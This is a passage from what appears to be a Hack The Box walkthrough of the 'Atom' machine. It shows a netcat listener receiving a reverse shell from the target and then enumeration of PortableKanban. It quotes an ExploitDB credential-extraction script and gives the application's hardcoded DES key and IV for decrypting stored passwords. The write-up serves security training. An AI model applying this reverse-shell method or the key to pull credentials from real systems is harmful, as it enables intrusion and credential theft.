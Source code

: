     
    
    oxdf@parrot$ nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.237] 63974
    Microsoft Windows [Version 10.0.19042.906]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\WINDOWS\system32>
    

Interestingly, when the request for the `.exe` file was 404, Atom would hit
the web server every minute. It seems like perhaps that attempting to get a
file but not finding it would break the process such that the cleanup on Atom
didn’t continue. Once I put an executable there, everything was cleaned up.

## Shell as administrator

### Enumeration

#### PortableKanban

In Jason’s `Downloads` directory, there are two folders:

    
    
    PS C:\Users\jason\downloads> ls
    
        Directory: C:\Users\jason\downloads
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-----         3/31/2021   2:36 AM                node_modules
    d-----          4/2/2021   8:21 PM                PortableKanban
    

`node_modules` is almost certainly related to the Heed application, but
`PortableKanban` is not. Googling for “portablekanban”, the first hit is an
ExploitDB post, just before the link to the actual software:

![image-20210416085032031](https://0xdfimages.gitlab.io/img/image-20210416085032031.png)

[The post](https://www.exploit-db.com/exploits/49409) is a Python script,
which I also looked at in detail for [Sharp](/2021/05/01/htb-
sharp.html#portable-kanban):

>
>     # PortableKanBan stores credentials in an encrypted format
>     # Reverse engineering the executable allows an attacker to extract
> credentials from local storage
>     # Provide this program with the path to a valid PortableKanban.pk3 file
> and it will extract the decoded credentials
>  

It looks like the creds are just base64-decoded, and then decrypted using DES
with a key of “7ly6UznJ” and an IV of “XuVUm5fR”.

In Sharp, there was a local config file to decrypt. Unfortunately, I don’t see
a `PortableKanban.pk3` file on Atom:
